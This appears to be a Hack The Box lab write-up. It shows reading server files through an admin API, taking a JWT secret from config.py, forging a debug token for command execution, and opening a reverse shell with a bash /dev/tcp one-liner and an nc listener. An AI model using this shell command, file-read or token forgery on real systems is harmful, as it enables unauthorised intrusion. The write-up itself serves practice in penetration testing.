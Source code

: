 - It works!  
![image](https://user-images.githubusercontent.com/96747355/168395506-5acd9406-c327-4b79-b291-1d1ad8a3ae01.png)
- So we have an admin token bearer
- As an admin we really can do interesting things like getting file and running commands!! Let's try an ls  
![image](https://user-images.githubusercontent.com/96747355/168395765-41602c3a-fec1-48bc-a131-d71e1f92b718.png)  
- We get an error. It seems like we need to get the jwt token so for this we have to fing the secret  
![image](https://user-images.githubusercontent.com/96747355/168396013-12c1ec2b-08a5-4cdf-8d3b-e705a75a8b76.png)  
- However if we try to get a file it works  
![image](https://user-images.githubusercontent.com/96747355/168396151-02022922-7949-49b9-87bb-63a607e91d6c.png)  
- According to the passwd we have a user htb, let's keep a note of this info
- Let's play a little with this request in the repeater. Let's try to see /proc/self/environ
```
{"file":"APP_MODULE=app.main:app\u0000PWD=/home/htb/uhc\u0000LOGNAME=htb\u0000PORT=80\u0000HOME=/home/htb\u0000LANG=C.UTF-8\u0000VIRTUAL_ENV=/home/htb/uhc/.venv\u0000INVOCATION_ID=96ded48945ea4eaa88ac04aee2953139\u0000HOST=0.0.0.0\u0000USER=htb\u0000SHLVL=0\u0000PS1=(.venv) \u0000JOURNAL_STREAM=9:18929\u0000PATH=/home/htb/uhc/.venv/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000OLDPWD=/\u0000"}
```
- The working dir is `/home/htb/uhc` we can try to get the source code using the info from the env file let's try to access `/home/htb/uhc/app/main.py` It works! Let's paste it to a file and analyse it
- If we check the import we can find the config file `from app.core.config import settings`
- Let's get the file in burp `"file": "/home/htb/uhc/app/core/config.py"` We have the JWT secret in it!
```
class Settings(BaseSettings):
    API_V1_STR: str = \"/api/v1\"
    JWT_SECRET: str = \"SuperSecretSigningKey-HTB\"
    ALGORITHM: str = \"HS256\"
```
- For easiest use on the swagger let's connect with the admin creds we created we just have to click on the Authorize green lock on the top right and enter our credentials
- Ok now let's inspect the token in jwt.io  
![image](https://user-images.githubusercontent.com/96747355/168400622-d6b5ab1d-a822-4f51-b1ae-0aa2dc2d3f17.png)  
- Let's try to add our secret now that we have it we need to enter it here:  
![image](https://user-images.githubusercontent.com/96747355/168400796-344237a4-9446-4870-b402-0129ef4d62d9.png)  
- And according to the error message we have we also need to add a debug flag in it so our payload data looks like this  
![image](https://user-images.githubusercontent.com/96747355/168401019-d8897ff1-0180-405c-bc22-cbfbb9c59a5f.png)  
- Now we just need to copy the new token and we should be able to execute commands.
- Let's try our ls again. And it works!  
![image](https://user-images.githubusercontent.com/96747355/168401140-a62a8608-2bae-453e-9c06-991a023b37ef.png)  
- Let's try to get a shell `bash -i >& /dev/tcp/10.10.14.11/4444 0>&1`. 
- We launch a listener `nc -lvp 4444`
- We have to be careful with the & symbol in order for it to not be interpreted as url char. so first lets encode this in base64 we can do it with burp  
![image](https://user-images.githubusercontent.com/96747355/168448294-d83f5a86-f40e-4340-9e3c-a7dde3b74a49.png)  
- Now we need to add an echo -n in front of it pipe it to a base64 decode and pipe it to bash so that it gets executed like this  
![image](https://user-images.githubusercontent.com/96747355/168448348-1a2ceaab-2418-491b-b8fb-f0d23c19695a.png)  
- And finally we fully urlencode all of this with burp again we have ti select "URL-encode all characters"  
![image](https://user-images.githubusercontent.com/96747355/168448399-79c814d0-41f8-4558-9d8b-4c84dfc4456a.png)  
- Our payload will look like this  
![image](https://user-images.githubusercontent.com/96747355/168448426-e5f57283-24d3-46c7-afc0-f6ee18cad173.png)  